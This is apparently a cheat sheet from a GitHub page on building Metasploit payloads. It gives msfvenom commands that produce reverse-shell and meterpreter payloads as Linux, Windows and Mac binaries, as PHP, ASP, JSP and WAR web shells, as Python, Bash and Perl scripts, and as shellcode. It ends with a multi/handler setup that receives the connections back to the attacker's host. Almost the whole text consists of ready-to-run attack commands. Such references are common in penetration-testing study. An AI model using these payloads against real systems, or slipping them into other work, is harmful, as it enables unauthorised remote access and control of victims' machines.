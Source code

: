 # Creating Metasploit Payloads

For each of these payloads you can go into msfconsole and select exploit/multi/handler. Run ‘set payload’ for the relevant payload used and configure all necessary options (LHOST, LPORT, etc). Execute and wait for the payload to be run. For the examples below it’s pretty self explanatory but LHOST should be filled in with your IP address (LAN IP if attacking within the network, WAN IP if attacking across the internet), and LPORT should be the port you wish to be connected back on.

## List payloads
```
msfvenom -l
```
## Binaries
CHANGE `x86` to `x64` on a 64bit system if it doesnt work
### Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf #meterpreter shell
```
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf #staged
```
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf #stageless
```
### Windows
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe #meterpreter
```
```
msfvenom -p windows/shell/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe #staged
```
```
msfvenom -p windows/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe #stageless
```
### Mac
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho #meterpreter shell
```
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho #stageless
```
## Web Payloads
### PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php #meterpreter shell
```
`
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
`
```
msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php #regular shell
```
### ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp #meterpreter
```
```
msfvenom -p windows/shell/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```
### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```
### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```
## Scripting Payloads
### Python
```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```
```
msfvenom -p python/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```
### Bash
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```
```
msfvenom -p cmd/unix/reverse_bash_telnet_ssl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```
### Perl
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
```
msfvenom -p cmd/windows/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
## Shellcode
For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.
### Linux Based Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
### Windows Based Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
```
msfvenom -p windows/shell/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
### Mac Based Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
## Handlers
Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

```
se exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```
Once the required values are completed the following command will execute your handler
```
msfconsole -L -r
```